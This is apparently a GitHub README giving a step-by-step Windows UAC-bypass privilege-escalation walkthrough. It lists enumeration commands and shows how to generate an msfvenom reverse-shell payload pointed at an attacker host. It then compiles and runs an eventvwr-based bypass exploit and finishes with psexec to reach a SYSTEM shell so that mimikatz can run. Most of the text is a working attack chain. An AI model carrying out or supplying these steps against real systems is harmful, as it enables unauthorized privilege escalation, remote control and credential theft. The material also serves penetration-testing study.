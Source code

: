 # UAC-bypass

If you're in Administrator group but are on Medium Mandatory Level, you can't run some commands and tool due to User Account Control. One should need to bypass UAC to get on High Mandatory Level, from there we can become SYSTEM. With UAC enabled we can't run tools like mimikatz, and sometime commands like changing administrator password etc.

# Exploitation

## Check for Permissions
```markdown
whoami /all
```
![OnPaste 20220608-165652](https://user-images.githubusercontent.com/106917304/172605390-b7dfb995-c707-45cd-be78-9c7d2f23c4a5.png)

We're in administrator group and on Medium Mandatory Level.
## Check For UAC is Enabled
```markdown
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System 
```
![OnPaste 20220608-170237](https://user-images.githubusercontent.com/106917304/172606326-7b52b703-d024-4c97-ad19-29105d509a2f.png)

EnableLUA tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys 
PromptSecureDesktop is on.


First we ensure that eventvwr.exe exists and is set to autoelevate to High integrity.
```markdown
where /r C:\\windows eventvwr.exe
```
![OnPaste 20220608-170657](https://user-images.githubusercontent.com/106917304/172607955-1ffda1af-2254-4a7e-86a8-7ee739529943.png)


Upload [strings64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/strings64.exe) to target machine.
```markdown
strings64.exe -accepteula C:\\Windows\\System32\\eventvwr.exe | findstr /i autoelevate
```

![OnPaste 20220608-171241](https://user-images.githubusercontent.com/106917304/172608066-79407888-b78d-4484-b071-6fed6d09ca48.png)

We can see the value is set to True.

Now on Atacker machine generate msfvenom payload:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 -f exe > shell.exe
```
we gonna use [eventvwr-bypassuac.c](https://github.com/k4sth4/UAC-bypass/blob/main/eventvwr-bypassuac.c)

NOTE: Remember the name of the reverse shell that we generated with masfvenom is shell.exe. If you have given another name to payload must change the name in C script and both our shell.exe and eventvwr-bypassuac.c are on same directory on attacker vm.

We need to compile the C script to get our exploit.
```markdown
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
```

![OnPaste 20220608-172531](https://user-images.githubusercontent.com/106917304/172610419-1a2bd97d-0062-401e-92a7-12ac91721850.png)

![OnPaste 20220608-172613](https://user-images.githubusercontent.com/106917304/172610444-fbd93a1f-09bf-4a31-b099-0d9f371391b3.png)

## Reverse Shell

Now upload shell.exe and eventvwr-bypassuac-64.exe to target machine and execute eventvwr-bypassuac-64.exe.  
```markdown
.\eventvwr-bypassuac-64.exe 
```
![OnPaste 20220608-173002](https://user-images.githubusercontent.com/106917304/172611083-5c94570f-2d4b-4eef-a7a8-5ea6308fd890.png)

Got Reverse Shell.
![OnPaste 20220608-173131](https://user-images.githubusercontent.com/106917304/172611380-ad7daa97-e036-4d7a-9717-3c8740496d66.png)

We can see that now we are on High Mandatory Level.
![OnPaste 20220608-173341](https://user-images.githubusercontent.com/106917304/172611822-9f2d5991-d494-40a2-9815-ef76f572cfa4.png)

Now we can run mimikatz!

If you want SYSTEM shell we can now become SYSTEM with [psexec64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/psexec64.exe)

Upload psexec64.exe and shell.exe on target machine with High Mandatory Level. Now execute psexec64.exe with shell.exe.
```markdown
.\psexec64.exe -i -accepteula -d -s C:\\programdata\\shell.exe
```

After that we'll a reverse shell as SYSTEM.

